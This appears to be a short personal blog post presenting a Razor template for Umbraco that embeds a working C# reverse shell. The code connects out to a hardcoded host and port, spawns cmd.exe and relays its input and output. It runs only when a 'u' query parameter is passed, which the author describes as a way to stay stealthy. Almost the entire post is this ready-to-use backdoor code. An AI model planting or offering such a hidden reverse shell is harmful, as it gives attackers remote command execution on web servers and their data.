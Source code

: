 ```yaml
---
date: '2020-05-16T00:01:37.945Z'
title: 'Saturday, 16 May 2020, 01:01'
description: "A Razor \U0001FA92 reverse ◀ shell \U0001F41A"
---
```


A while ago I experimented with reverse shells in Umbraco but never published any code.

The following snippet will execute a reverse shell from within a Razor template:

```dotnet
@{
    void ReverseShell(string lhost, int lport)
    {
        using (var client = new System.Net.Sockets.TcpClient(lhost, lport))
        using (var stream = client.GetStream())
        using (var reader = new StreamReader(stream))
        using (var writer = new StreamWriter(stream))
        using (var process = new System.Diagnostics.Process())
        {
            process.StartInfo.FileName = "cmd.exe";
            process.StartInfo.CreateNoWindow = true;
            process.StartInfo.RedirectStandardInput = true;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;

            var dataReceivedEventHandler = new System.Diagnostics.DataReceivedEventHandler((sender, args) =>
            {
                try
                {
                    writer.WriteLine(args.Data);
                    writer.Flush();
                }
                catch { }
            });

            process.OutputDataReceived += dataReceivedEventHandler;
            process.ErrorDataReceived += dataReceivedEventHandler;

            process.Start();
            process.BeginOutputReadLine();
            process.BeginErrorReadLine();

            process.StandardInput.WriteLine();

            while (true)
            {
                process.StandardInput.WriteLine(reader.ReadLine());
            }
        }
    }
}

@if (!string.IsNullOrEmpty(Request.QueryString["u"]))
{
    try
    {
        var lhost = "192.168.0.44";
        var lport = 666;
        ReverseShell(lhost, lport);
    }
    catch { }
}
```

In an effort to remain stealthy it will only execute when a value is passed in the `u` query string parameter.

Here's a video of it in action: <https://youtu.be/1oC0UwvigR8>
